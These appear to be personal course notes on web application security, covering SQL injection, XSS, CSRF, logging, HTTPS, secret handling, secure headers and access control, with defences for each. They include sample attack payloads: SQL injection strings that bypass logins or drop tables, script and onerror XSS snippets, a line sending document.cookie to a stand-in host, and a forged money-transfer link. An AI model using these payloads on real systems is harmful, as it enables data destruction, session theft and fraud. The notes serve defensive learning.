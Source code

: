 ### Star of Security

![star](../img/star.png)

### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js
<img src="/" onerror = "alert(1);">
```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
* https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
* **XSS**: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* **CSRF**: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies

### Code Secrets

1. Environment Variables: API key
   * process.env set by create-react-app
   * Under the hood, it uses dotenv package
   * .env file in create-react-app(REACT_APP_SAY_HI=HIII)
   * Run npm start again and you can see the details in process.env
2. Commit History
  * Include .env in .gitignore
  * Don't commit your code secrets to Github

### Secure Headers

* npm install helmet
* Without helmet, make some request in input field
* In Network tab of that request, in the Headers section, you see
  * Info of X-Powered-By: Express
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L9-L10
* HTTP Headers: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
* HTTP Header fields: https://www.tutorialspoint.com/http/http_header_fields.htm
* helmet: https://github.com/helmetjs/helmet
* HTTP: The Protocol Every Web Developer Must Know: https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177

### Access Control

* Principal of least privilege
  * Give nearly enough so that People can do their work and nothing more
* CORS: Cross origin resource sharing
  * Access to only people we trust using corsOptions
![cors](../img/cors.png)

### Data Management

* Encrypt only sensitive data
  * bcrypt, scrypt, aragon2
  * pgcrypto - encrypt a few columns(Encrypting database)
* https://rangle.io/blog/how-to-store-user-passwords-and-overcome-security-threats-in-2017/

### Don't Trust Anyone

![dta](../img/dta.png)
* ratelimiter when client is compromised and sends requests after requests